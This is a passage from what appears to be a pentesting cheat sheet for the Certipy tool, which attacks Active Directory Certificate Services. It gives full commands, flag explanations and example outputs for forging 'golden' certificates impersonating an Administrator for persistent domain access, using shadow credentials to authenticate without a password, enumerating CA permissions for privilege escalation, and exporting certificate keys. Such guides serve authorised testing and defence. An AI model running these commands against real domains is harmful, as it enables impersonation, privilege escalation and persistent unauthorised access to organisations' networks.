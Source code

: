 **Example Output**:
```
[*] Generated shadow credentials for target_user@example.local
[*] Saved certificate to shadow.pfx
```

**Use Case**: Enables authentication as the target user without their password.

### 7. Forging Certificates (Forge)
**Purpose**: Create golden or self-signed certificates for persistence.

**Command**:
```bash
certipy-ad forge -ca-pfx ca01.pfx -subject 'CN=Administrator,DC=example,DC=local' -output forged.pfx
```
**Flag Explanations**:
- `-ca-pfx ca01.pfx`: Specifies the CA’s PFX file containing its certificate and private key.
- `-subject 'CN=Administrator,DC=example,DC=local'`: Sets the subject for the forged certificate.
- `-output forged.pfx`: Saves the forged certificate to the specified file.

**Example Output**:
```
[*] Forged certificate saved to forged.pfx
```

**Use Case**: Creates certificates for persistent domain access.

### 8. Managing Certificate Authorities (CA)
**Purpose**: Enumerate or modify CA configurations.

**Command**:
```bash
certipy-ad ca -u 'user1@example.local' -p 'Password123' -dc-ip 192.168.1.100 -ca CA01-CA -list -enabled
```
**Flag Explanations**:
- `-u 'user1@example.local'`: Username for authentication.
- `-p 'Password123'`: Password for the user.
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-ca CA01-CA`: Specifies the target CA (optional; lists all CAs if omitted).
- `-list`: Lists CA configurations and permissions.
- `-enabled`: Filters for enabled CAs only.

**Example Output**:
```
[*] CA: CA01-CA
[*] Permissions: example.local\user1 (Enroll, ManageCA)
```

**Use Case**: Identifies CA misconfigurations for privilege escalation.

### 9. Managing Certificates (Cert)
**Purpose**: Handle certificates and private keys (e.g., export, convert).

**Command**:
```bash
certipy-ad cert -pfx admin.pfx -export-pem -out admin.pem -password 'P@ssw0rd'
```
**Flag Explanations**:
- `-pfx admin.pfx`: Specifies the input PFX file.
- `-export-pem`: Converts the certificate to PEM format.
- `-out admin.pem`: Specifies the output file for the PEM certificate.
- `-password 'P@ssw0rd'`: Provides the password for the PFX file (if encrypted).
